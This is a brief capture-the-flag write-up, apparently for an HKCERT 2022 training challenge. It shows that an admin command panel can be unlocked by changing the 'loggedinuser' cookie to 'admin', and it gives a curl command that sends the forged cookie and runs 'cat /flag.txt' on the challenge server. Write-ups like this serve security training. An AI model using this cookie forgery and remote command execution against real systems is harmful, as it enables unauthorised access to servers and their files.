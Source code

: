 # Solution

The page contains a simple login form to a Linux command line based admin panel.

Changing cookie `loggedinuser` from `guest` to `admin`, you will be logged in as admin, and by entering `cat /flag.txt` as command flag could be retrieved. 

```bash
curl -X POST 'http://chal.training.hkcert22.pwnable.hk:20006/' -H 'Cookie: loggedinuser=admin' -F 'cmd=cat /flag.txt'
```
